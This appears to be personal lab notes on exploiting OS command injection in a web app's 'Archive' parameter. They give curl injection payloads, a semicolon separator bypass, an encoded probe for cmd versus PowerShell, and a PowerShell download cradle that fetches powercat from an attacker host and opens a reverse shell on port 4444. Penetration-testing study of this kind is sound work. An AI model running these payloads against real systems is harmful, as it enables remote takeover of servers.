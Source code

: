 If we can input some sort of command line instruction (such as `git clone`), then we can guess that may the OS on server side is executing that command on their side. Using Burp we can analyse and confirm this:

![[Pasted image 20250703173609.png]]
*It uses the archive parameter to parse the request*

Thus we can do `curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive` to inject our own command. We would also need to find out which folder to upload (also from Burp).

If command fails we can try to bypass, KNOWING what commands are allowed so instead we can do `curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive`, using a semicolon as command separator, to see if it's executed. 

On Windows Machine, we can use this `
`(dir 2>&1 *`\``|echo CMD);&<# rem #>echo PowerShell` and it will output whether we are working with pwsh or cmd. Curl command ends up being `curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive`

`cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .`
	Windows' Netcat to generate a reverse shell. Start a python server to make this script available.

Within the script `IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell` is the actual reverse shell command, with the first line being a powershell download cradle?
	**-c** to specify where to connect, **-p** for the port, and **-e** for executing a program.
*Reverse shell should be obtained!*

